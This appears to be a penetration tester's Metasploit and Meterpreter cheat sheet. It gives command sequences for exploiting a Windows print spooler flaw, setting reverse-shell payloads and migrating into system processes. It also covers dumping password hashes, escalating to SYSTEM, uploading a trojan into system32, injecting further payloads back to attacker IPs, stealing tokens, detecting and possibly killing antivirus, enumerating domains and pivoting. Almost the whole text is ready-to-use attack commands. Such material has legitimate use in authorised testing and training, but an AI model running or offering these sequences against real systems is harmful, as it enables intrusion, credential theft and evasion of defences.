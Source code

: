 ## Metasploit:  

    msfconsole [-n disables database support]
        Log output:  spool /root/20220317-log.1
        help <cmd>
        sessions [-h / -l / -i # / -k #]
        search [type: exploit platform:windows name:Microsoft app:server]
        info [exploit/windows/smb/ms10_061_spoolss]
        use [exploit/windows/smb/ms10_061_spoolss  \\  #]
            show options
                show advanced
            show targets
            show payloads
            set payload [windows/meterpreter/reverse_tcp]
                RHOST (exploit): where the packet goes next
                LHOST (payload): the IP of the box that the target box will send the packet to
            set prependmigrateprocess spoolsv.exe
            set prependmigrate true
        exploit  
   
## Meterpreter:  

    General Commands:
          https://www.hackers-arise.com/ultimate-list-of-meterpreter-command
          sessions; sessions -i <#>; sessions -k <#>
          shell
          jobs; jobs -h; jobs -K
          getsystem
          hashdump
          help
          Run Script: run ... - scripts located in /usr/share/metasploit-framework/modules/post and /usr/share/metasploit-framework/scripts/meterpreter
              Useful Scripts: https://www.hackers-arise.com/ultimate-list-of-meterpreter-scripts
          Run Command:
              run multicommand -cl ["cmd.exe /c at","cmd.exe /c schtasks /query"  \\  "cmd.exe /c dir c:\\windows\\temp /od /tw"] [-f <local output file>]
              Background:  execute [-f fpipe.exe -a '-l 12345 -r 45678 192.168.11.26']
              shell  \\  execute -i -f [/system/bin/sh  \\  cmd.exe]
              WMIC:  run post/windows/gather/wmic_command COMMAND="startup list"
          background
          upload/download   (ex.  download [c:\\boot.ini]  ;  upload [evil_trojan.exe c:\\windows\\system32])
          reg
          search  (ex.  search [-f autoexec.bat] [-f sea*.bat c:\\xamp\\])
          edit <file> (uses vim)
          resource <local file>  (runs script of commands)
          kill

    Techniques:
          Migrate to Stable Process:  migrate <PID of spoolsv.exe>
          Switch Payload Architecture:  use post/windows/manage/archmigrate; set SESSION 1; set IGNORE_SYSTEM=true
          Duplicate Session:  use post/windows/manage/multi_meterpreter_inject; set ... IPLIST="IP of next hop back--prob jump internal IP, same as rev shell IP" LPORT=3333 SESSION=1 HANDLER=true PAYLOAD=windows/x64/meterpreter/reverse_tcp  
              Or:  run duplicate -D -P 364 -p 443 -r 192.168.137.152  ;  -P <PID>, -r <Attacker IP>, -p <remote port>, -D disable the automatic exploit/multi/handler
          Open another shell:  use post/windows/manage/payload_inject; set ... LHOST=172.17.10.80 LPORT=4444 SESSION=1 HANDLER=true PAYLOAD=windows/x64/meterpreter/reverse_tcp
          Upload file:  upload "/root/psloglist.exe" "c:/windows/temp/psloglist.exe"
          Pivot:  execute -f fpipe.exe -a '-l 12345 -r 12345 192.168.1.1'
          search -f *.txt -d c:\\documents\ and\ settings\\administrator\\desktop\\

    Situational Awareness:
          localtime  \\  run multicommand -cl "cmd.exe /c date /t","cmd.exe /c time /t","cmd.exe /c w32tm /tz"  \\  run post/windows/gather/wmic_command COMMAND="os get localdatetime"
          ipconfig  \\  run get_local_subnets
          netstat
          getuid
          getpid
          ps
          run post/windows/gather/enum_logged_on_users
          idletime
          sysinfo
          run multicommand -cl 'cmd.exe /c systeminfo' 
    Users/Privs:
          getprivs  \\  run post/windows/gather/win_privs
        getsid
        run multicommand -cl "cmd.exe /c net users","cmd.exe /c net accounts"
        run multicommand -cl 'cmd.exe /c net localgroup administrators' 
    Environment:
        run get_env  \\  run post/multi/gather/env
        run checkvm
        Check AV:
            ps
            run getcountermeasure
            run post/windows/gather/enum_applications
            run post/windows/gather/wmic_command COMMAND='/node:localhost /namespace:\\root\securitycenter2 path antivirusproduct get * /format:list'
                Confirm:  run multicommand -cl 'cmd.exe /c sc queryex state= all|findstr /i /r "Defender Security Virus Symantec McAfee Baidu Sophos Scan Client Agent Malware Kaspersky"'  \\  run multicommand -cl 'cmd.exe /c wmic process get commandline /format:list|findstr /i /r "Defender Security Virus Symantec McAfee Baidu Sophos Scan Client Agent Malware Kaspersky"'					
                Status:  run multicommand -cl 'cmd.exe /c sc query [WinDefend\SAVService\...]'
                #run killav  \\  #run virusscan_bypass
        Check Firewall:
            run multicommand -cl "cmd.exe /c netsh advfirewall show currentprofile","cmd.exe /c netsh advfirewall show allprofiles"  \\  run multicommand -cl "cmd.exe /c netsh firewall show config"
            run multicommand -cl 'cmd.exe /c netsh advfirewall monitor show firewall'
            run multicommand -cl 'cmd.exe /c netsh advfirewall firewall show rule name=all > c:\windows\temp\rules.txt' ; download c:/windows/temp/rules.txt /tmp ; rm c:/windows/temp/rules.txt ; dos2unix -n -f /tmp/rules.txt /tmp/rules2
                *Note the profiles
                *Check Enabled, Direction, Profile, Protocol, Action
                **Check Default Policy** -> port might be allowed by default
        Check Auditing:  run multicommand -cl 'cmd.exe /c auditpol /get /category:*'
        Hardware:  run post/windows/gather/wmic_command COMMAND="computersystem get TotalPhysicalMemory"; run post/windows/gather/wmic_command COMMAND="computersystem get FreePhysicalMemory"  \\  run multicommand -cl 'cmd.exe /c systeminfo'        
    Networking:
        run multicommand -cl 'cmd.exe /c nbtstat -n'
        route
        run multicommand -cl "cmd.exe /c netsh interface ip show config"  (Shows DNS server, etc.)
        getproxy
        Domain Enum:  run multicommand -cl "cmd.exe /c nbtstat -n"; load extapi; adsi_computer_enum <domain>; adsi_user_enum <domain>; adsi_nested_group_user_enum <domain> "CN=Domain Admins,CN=Users,DC=boot,DC=lab"; might need to: steal_token <PID of user process> ; then drop_token
        Resolve Hostname:  resolve <hostname>
        Scan:
            use post/windows/gather/arp_scanner
            use auxiliary/scanner/portscan/tcp
    Enumeration:
        ps
        run post/windows/gather/enum_applications
        reg enumkey -k 'HKLM\software'
        reg enumkey -k 'HKLM\software\microsoft'
        run multicommand -cl "cmd.exe /c at","cmd.exe /c schtasks /query"
        run post/windows/gather/enum_services  \\  run multicommand -cl "cmd.exe /c sc queryex state= all"
        run multicommand -cl "cmd.exe /c net use","cmd.exe /c net share"  \\  run post/windows/gather/enum_shares
        run post/windows/gather/forensics/enum_drives  \\  show_mount
        run post/windows/gather/wmic_command COMMAND="startup list"
        reg queryval -k 'HKLM\software\microsoft\powershell\1\powershellengine' -v powershellversion
        search -f *.doc* ; search -f *.xls* ; search -f *.ppt* ; search -f *.pdf*
        run multicommand -cl 'cmd.exe /c where /R C:\users *.exe | findstr /i "Temp"'
    Dump Info:
        run remotewinenum -u administrator -p password -t 10.1.1.1
        run scraper
        run winenum
    Pivoting/Redirection:
        See Post-Exploit->Port Redirection & Tunneling
        portfwd
        autoroute
        hostsedit
